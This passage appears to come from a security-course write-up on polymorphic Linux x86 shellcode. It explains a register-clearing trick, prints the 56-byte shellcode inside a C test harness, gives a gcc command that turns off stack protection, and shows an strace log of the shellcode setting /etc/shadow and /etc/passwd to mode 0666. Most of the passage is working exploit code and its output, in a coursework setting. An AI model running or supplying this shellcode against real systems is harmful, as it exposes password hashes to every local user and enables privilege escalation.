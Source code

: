 Since I used the instruction `mul ecx` at the beginning, it means the registers`EDX` and `EAX` are set to 0.

Moreover, given `EDX` is never used, it means I could use it to clear other registers.

In this case, I repeated two times the following instruction:

```nasm
mov eax, edx
```

Although not very small, at `56` bytes, this stable polymorphic version is still smaller than the original shellcode.

### Testing

To test the polymorphic shellcode, I've used the following C program:

```cpp
#include <stdio.h>
#include <string.h>

unsigned char code[] = \
"\x31\xc9\xf7\xe1\xbe\x2f\x65\x74\x63\x50\x68\x61\x64\x6f\x77\x68\x2f\x2f\x73\x68\x56\x89\xe3\x04\x0f\x66\xb9\xb6\x01\xcd\x80\x89\xd0\x50\x68\x73\x73\x77\x64\x04\x0f\x68\x2f\x2f\x70\x61\x56\x54\x5b\xcd\x80\x89\xd0\x40\xcd\x80";

main() {
    printf("Shellcode length: %d\n", strlen(code));

    int (*ret)() = (int(*)())code;
    ret();
}
```

To compile it I used `gcc`:

```bash
gcc -fno-stack-protector -z execstack -o test_polymorphic_shellcode test_polymorphic_shellcode.c
```

Once I've run it, I could confirm it successfully changes the permissions over the files `/etc/passwd` and `/etc/shadow`:

```bash
rbct@slae:~/exam/assignment_6/1$ sudo strace -e trace=chmod ./test_polymorphic_shellcode 
# Shellcode length: 56
# chmod("/etc//shadow", 0666)             = 0
# chmod("/etc//passwd", 0666)             = 0

rbct@slae:~/exam/assignment_6/1$
```

As you can see, the syscalls `chmod` returned the value `0` in both cases, which means it managed to change the permissions and exit gracefully.

